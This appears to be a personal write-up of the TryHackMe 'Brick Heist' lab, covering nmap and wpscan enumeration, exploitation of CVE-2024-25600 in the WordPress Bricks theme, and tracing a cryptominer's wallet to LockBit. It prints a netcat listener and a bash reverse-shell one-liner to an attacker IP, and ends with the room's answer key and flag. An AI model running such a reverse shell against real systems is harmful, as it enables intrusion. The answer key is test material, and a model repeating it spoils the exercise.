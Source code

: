 ### Brick Heist
---

**Given Basic Info:**
Brick.By.Brick.v.2.1
Machine ID: **10.10.3.78 bricks.thm**
*Added to /etc/hosts*

---
#### Process

I started with nmap just so I can see which services and/or ports are available

nmap -nP -sV -sC 10.10.3.78

I wont paste the whole result because of -sC but:

Nmap scan report for 10.10.3.78
Host is up (0.16s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Python http.server 3.5 - 3.10
443/tcp  open  ssl/http Apache httpd
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

443 it's open so 10.10.3.78:443 or https://bricks.thm
The logo at the top of the web indicates wordpress.

Since it's wordpress, I'll try **wpscan** with --url attribute prompt

Didnt work.

the output saying "Scan Aborted: The url supplied 'https://bricks.thm/' seems to be down (SSL peer certificate or SSH remote key was not OK)" led me trying **--disable-tls-checks**

It's confirmed it WordPress 6.5. Detected entries:

/wp-admin/ 
/wp-admin/admin-ajax.php

So I looked into them aaand there's the wp login page.

Found out that *The most common reasons WordPress websites get hacked are vulnerabilities in plugins and themes and compromised WordPress admin accounts.*

So I looked at that info with Wappalyzer, it says the theme is bricks, the wpscan with --disable-tls-checks shows the bricks version as 1.9.5

I found an exploit of that theme in github **https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/tree/main** so i cloned it and exec.

Just to end up receiving me the new the PEP 668 error about forcing the usage of virtual environments in order to prevent conflicts and inconsistencies between packages managed by the OS and those managed by pip.

So yes, I needed to do that whole thing. (venv)

Installed the required dependencies one by one (in total 5 or 6)

executed the exploit CVE-2024-25600.py

gained access and looking at the files theres the .txt file which the flag **(Question 1 done)**

When trying to do a systemctl it closed and had to execute the CVE over again.

Decided  to do a reverse shell to scale privileges, tbh I didnt know how to do it. I found out that in the local machine I had to enable a listener port so **netcat -l -p 1234**

in the target machine I found the command which is "bash -c 'exec bash -i &>/dev/tcp/10.8.125.95/1234 <&1" (/dev/tcp/LOCAL_IP/PORT)

Doing that I could get the command shell

Systemctl | grep running

There was a service called ubuntu.service **(Question 3 done)** with "TRYHACK3M" description

systemctl cat ubuntu.service 

it's initialized by ExecStart=/lib/NetworkManager/**nm-inet-dialog** **(Question 2 done)**

Searching that place there's two files matching names: nm-inet-dialog and inet.conf

both of them were too long so I used command **head** 

nm-inet-dialog is not readable
inet.conf it's somewhat a miner log with the ID: **(Question 4 done)** 757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d

To be honest I didnt know what was that, after searching about a possible explanation, I had to decode. There's a cool tool I found called cyberchef "https://gchq.github.io/CyberChef/" and there's the option of trying to decode in several ways a code with "magic" option.

This is the output

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa

seems it's repeated but the one I need is the first one 

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa **(Question 5 done)**

I searched for that adress at https://www.blockchain.com/explorer

a wallet bc1qy-l67qa has been found. After searching each transaction number in google, there's one with importance because of a Office of Foreign Assets Control sanction: **bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r** owned by *"KONDRATIEV, Ivan Gennadievich"*. Searching that name in google there's a referenced group called "LockBit" **(Question 6 Done)**

And that's it. It was fun.

Next one.

#### Questions

1. What is the content of the hidden .txt file in the web folder?
THM{fl46_650c844110baced87e1606453b93f22a}

2. What is the name of the suspicious process?
nm-inet-dialog

3. What is the service name affiliated with the suspicious process?
ubuntu.service

4. What is the log file name of the miner instance?
inet.conf

5. What is the wallet address of the miner instance?
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

6. The wallet address used has been involved in transactions between wallets belonging to which threat group?
LockBit